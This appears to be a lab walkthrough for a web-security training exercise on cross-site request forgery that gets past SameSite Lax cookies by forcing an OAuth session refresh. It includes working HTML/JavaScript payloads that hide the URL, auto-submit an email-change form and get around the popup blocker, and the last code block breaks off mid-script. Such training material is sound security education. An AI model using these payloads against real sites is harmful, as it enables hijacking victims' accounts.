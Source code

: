 The first `<script></script>` block changes the visible URL in the browser's address bar to `/`, but without actually navigating or reloading the page. This is meant to hide the true malicious URL.

The `<form></form>` block is a `POST` request to the vulnerable target site's `change-email` endpoint.

The second `<script></script>` block automatically submits the form as soon as the page loads. 

Paste this exploit in the "Body" section of the exploit server's form and click "Store". Click "View exploit". 

> NOTE: If 2 minutes haven't passed since you logged in, this will automatically change your email to `foo@bar.com`. If it's over 2 minutes since you logged in, then it only log you in once again and then, all you have to do is immediately go back to exploit server and click "View exploit" in under 2 minutes.

Once the exploit has been successful, find `POST /my-account/change-email` request under __Proxy__ > __HTTP history__, specifically the one initiated by your exploit. Notice that it included the `session` cookie you were assigned once you logged in and it added a new one to it as well. 

If you visit `/social-login`, this automatically initiates the full OAuth flow. If you check it in __Proxy__ > __HTTP history__ you'll notice that after every OAuth flow, the target site sets a new session cookie even if you were already logged in. 

Back in the exploit server, change our original payload (the second `<script></script>` block) so that it first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause:

```
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="bar@foo.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

Click "Store" and then "View exploit". Notice that the initial request gets blocked by the browser's popup blocker. After a pause of 5 seconds the attack is still launched. However this is only successful if it has been less than two minutes since your cookie was set. If not the attack fails because the popup blocker prevents the forced cookie refresh. 

The popup is being blocked, because you haven't manually interacted with the page. Wrap the popup function code inside a `window.onclick` attribute so that it only opens the popup once the user clicks:

```
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="far@boo.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

```